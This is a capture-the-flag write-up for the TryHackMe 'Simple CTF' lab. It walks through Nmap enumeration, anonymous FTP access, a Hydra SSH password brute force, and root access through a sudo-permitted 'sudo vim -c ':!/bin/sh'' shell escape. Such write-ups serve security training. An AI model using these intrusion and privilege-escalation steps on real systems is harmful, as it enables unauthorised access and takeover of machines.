







# THM - Simple CTF

#### Ip: 10.10.2.89
#### Name: Simple CTF
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ sudo nmap -p-  --min-rate 10000 10.10.2.89
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 13:38 CDT
Nmap scan report for 10.10.2.89
Host is up (0.13s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 13.70 seconds
```
Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ sudo nmap -sC -sV -T4 10.10.2.89 -p 21,80,2222
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 13:40 CDT
Nmap scan report for 10.10.2.89
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.61.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.34 seconds

```

Looks like anonymous access to FTP is enabled, so lets check that out:

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ ftp 10.10.2.89                         
Connected to 10.10.2.89.
220 (vsFTPd 3.0.3)
Name (10.10.2.89:ryan): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls -la
229 Entering Extended Passive Mode (|||41102|)
ftp: Can't connect to `10.10.2.89:41102': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |********************************************************************************|   166      692.77 KiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (1.30 KiB/s)
ftp> bye
221 Goodbye.
```

Ok cool, now we have a username Mitch, and know that there are some weak passwords being used.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Lets check out HTTP. Navigating to the site we find the default Apache "It Works" page. 



Lets kick off some directory fuzzing to try and find something interesting.



Navigating to http://10.10.2.89/simple/ we find a page using CMS Made Simple. If we poke around a bit we can see the version number in the lower left corner:



Turning to Google we can quickly find a publically available exploit for this version.

https://www.exploit-db.com/exploits/46635

Looks like this version is vulnerable to SQL injection which can be used to crack passwords. Lets try it out!



### Exploitation

Note: While I believe this was the intended path, the script above was giving me lots of trouble, and took tons of troubleshooting, so in the end I decided to brute force SSH with mitch as a username. I chose to do this because based on the FTP note discovered earlier, I knew the password had to be relatively common, and easily crackable. I'll have to revisit the ExploitDB script and figure out why it wasn't working for me at another time. 

Nice! Hydra was able to discover Mitch's password. Lets use these credentials to login to ssh as user Mitch:

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ ssh mitch@10.10.2.89 -p 2222      
The authenticity of host '[10.10.2.89]:2222 ([10.10.2.89]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.2.89]:2222' (ED25519) to the list of known hosts.
mitch@10.10.2.89's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
$ hostname
Machine
$ pwd
/home/mitch
```

From here we can go ahead and grab the user.txt flag:



### Privilege Escalation

Running `sudo -l` to see if Mitch can run anything as root we find:

```text
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Nice! Lets head over to https://gtfobins.github.io/ and see if we can find anything on Vim:



Looks like smooth sailing, lets go ahead and drop that command in the terminal:

```text
$ sudo vim -c ':!/bin/sh'

# ^[[2;2R^[]11;rgb:0000/0000/0000^G
/bin/sh: 1: ot found
/bin/sh: 1: 2R: not found
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
Lets grab that final root.txt flag:



That's that! Thanks for following along,

-Ryan

------------------------------------------------------------------------------
